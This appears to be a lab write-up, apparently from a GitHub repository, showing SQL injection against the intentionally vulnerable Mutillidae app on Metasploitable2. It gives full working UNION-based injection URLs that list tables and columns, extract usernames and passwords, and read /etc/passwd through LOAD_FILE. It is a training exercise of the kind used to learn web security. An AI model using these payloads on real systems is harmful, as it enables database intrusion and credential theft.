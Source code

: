 Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema%20=%20%E2%80%98owasp10%E2%80%99%23&password=sk710-info-php-submit-button=View+Account+Details

![WhatsApp Image 2024-05-10 at 20 12 07_9ddf828d](https://github.com/Vineesh-AI-DS/sqlinjection/assets/93427254/43d0682b-9f75-4d33-b936-ea7d93896e25)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

The column names of the accounts is displayed below for the following url:

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,colunm_name,null,null,5%20from%20information_schema.columns%20where%20table_name%20=%20%E2%80%98accounts%E2%80%99%23&password=sk710-info-php-submit-button=View+Account+Details

![WhatsApp Image 2024-05-10 at 20 12 41_3ec9c423](https://github.com/Vineesh-AI-DS/sqlinjection/assets/93427254/b2e8f64e-75bd-44cb-9dee-a538cfcbb3ea)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=sk710-info-php-submit-button=View+Account+Details

![](o20.png)

### Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%20null,load_file(%E2%80%98/etc/passwd%E2%80%99),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![WhatsApp Image 2024-05-10 at 20 15 32_2f3bfa24](https://github.com/Vineesh-AI-DS/sqlinjection/assets/93427254/a38d7cd5-8d7c-4c83-864c-da1eba838b8d)


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
